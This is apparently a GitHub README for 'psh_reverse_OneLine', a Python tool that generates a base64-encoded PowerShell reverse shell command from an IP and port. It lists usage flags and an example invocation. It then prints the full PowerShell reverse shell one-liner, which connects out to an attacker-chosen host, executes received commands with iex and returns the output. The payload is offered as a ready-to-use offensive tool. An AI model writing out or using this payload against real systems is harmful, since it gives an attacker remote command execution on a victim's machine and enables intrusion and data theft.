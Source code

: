 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

manual:

	--help or -h	print manual
 
	--ip or -i	specify IP
 
	--port or -p	specify port
 
Example:

	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444

![Screenshot_20231011_232617](https://github.com/toto22222/psh_reverse_OneLine/assets/104328855/3c439b84-6da4-4947-bd4e-095009622eee)

FYI, the powershell reverse shell one liner code as below:

	$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
